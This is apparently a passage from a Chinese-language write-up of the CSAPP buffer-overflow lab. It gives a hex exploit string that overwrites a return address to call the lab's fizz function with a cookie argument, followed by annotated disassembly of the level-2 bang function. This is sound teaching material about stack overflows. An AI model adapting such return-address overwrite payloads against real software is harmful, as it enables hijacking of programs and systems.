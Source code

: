 发现 `fizz` 函数传入了一个参数，并且要求与 `cookie` 相同。

如果了解栈帧，就知道第一个参数的位置为 `0x8(%ebp)`，构造如下字符串：

```
/* spaces 44 Bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00

/* return address to fizz 4 Bytes */
af 8d 04 08

/* spaces 4 Bytes */
00 00 00 00

/* cookie 4 Bytes */
97 1b a8 23
```

切记，由于进入 `fizz` 是通过 `return`，`ebp` 的值会加 `4`，所以 `fizz` 的 `0x8(%ebp)` 对应 `getbuf` 的`0xc(%ebp)`，需要填充被跳过的 `4` 个字节。

尝试运行，成功通过：

![][level1]

## level2 Firecracker

该题需要调用 `bang` 函数，观察反汇编代码：

```x86asm
08048d52 <bang>:
 8048d52:   55                      push   %ebp
 8048d53:   89 e5                   mov    %esp,%ebp
 8048d55:   83 ec 18                sub    $0x18,%esp
 ; if (global_value == cookie)
 8048d58:   a1 0c d1 04 08          mov    0x804d10c,%eax
 8048d5d:   3b 05 04 d1 04 08       cmp    0x804d104,%eax
 8048d63:   75 26                   jne    8048d8b <bang+0x39>
 ;   true
 ;   __printf_chk(1, "Bang!: You set global_value to 0x%x\n", global_value)
 8048d65:   89 44 24 08             mov    %eax,0x8(%esp)
 8048d69:   c7 44 24 04 ac a4 04    movl   $0x804a4ac,0x4(%esp)
 8048d70:   08 
 8048d71:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048d78:   e8 13 fc ff ff          call   8048990 <__printf_chk@plt>
 ;   validate(2)
 8048d7d:   c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 8048d84:   e8 f7 04 00 00          call   8049280 <validate>
 8048d89:   eb 18                   jmp    8048da3 <bang+0x51>
 ;   false
 ;   __printf_chk(1, "Misfire: global_value = 0x%x\n", global_value)
 8048d8b:   89 44 24 08             mov    %eax,0x8(%esp)
 8048d8f:   c7 44 24 04 c2 a2 04    movl   $0x804a2c2,0x4(%esp)
 8048d96:   08 
 8048d97:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048d9e:   e8 ed fb ff ff          call   8048990 <__printf_chk@plt>
 ; end if
 8048da3:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048daa:   e8 21 fb ff ff          call   80488d0 <exit@plt>
```


[level0]: http://static.wilfredshen.cn/images/CSAPP-buflab/level0.png
[level1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level1.png
[level2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level2.png
[level3-1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-1.png
[level3-2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-2.png
[level4]: http://static.wilfredshen.cn/images/CSAPP-buflab/level4.png